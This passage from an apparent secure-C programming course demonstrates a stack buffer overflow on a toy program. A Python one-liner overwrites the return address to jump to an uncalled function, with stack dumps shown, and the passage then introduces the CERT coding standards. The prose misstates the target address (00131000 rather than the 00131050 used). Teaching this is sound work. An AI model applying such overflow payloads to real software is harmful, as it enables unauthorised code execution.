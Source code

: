 The key points to note is where the return address is on the stack.  It is the fourth entry down (`001310C1` in this example).  With that information, we can send input into the application that calls this code.  We do this via Python, which allows us to send a hex string to the application by piping data.  Data is pushed in reverse order on Windows, so we have to flip the input.  To call `uncalled` we just use its address -- `00131000`.  The following is an example (replace memory address accordingly):

```shell
python -c "print('x' * 12 + '\x50\x10\x13\x00')" | exploit

Address of main = 00131070
Address of copy_string = 00131000
Address of uncalled =  00131050
My stack is:
FFFFFFFF
00000001
00EFF87C
001310C1
00EFF874
78787878
78787878
78787878

xxxxxxxxxxxx
My stack is:
78787878
78787878
78787878
00131050
00EFF874
78787878
78787878
78787878

How was this called?!?
```

And there you go.  You have now executed code that should not have been.  This could be anything, and if the program has administrator privileges then things are worse.

## Some CERT Coding Standards

The point of this unit is to introduce some coding standards.  We will use the CERT set of rules (<https://wiki.sei.cmu.edu/confluence/display/seccode/SEI+CERT+Coding+Standards>{:target="_blank"}).  These are defined to support secure and safe code.  A number of languages are defined, including C and C++.  We will be using C.  You should bookmark this resource as it will be useful for you in the future.

For this section we will only look at a small number of rules.  This will give an introduction to some problems that can occur.  Some you may have even experienced.  You should review the rules and apply them.  These rules will make you a better programmer.  We won't look at the solutions to these problems.  To do this you should review the rules online.  Solutions are available there.
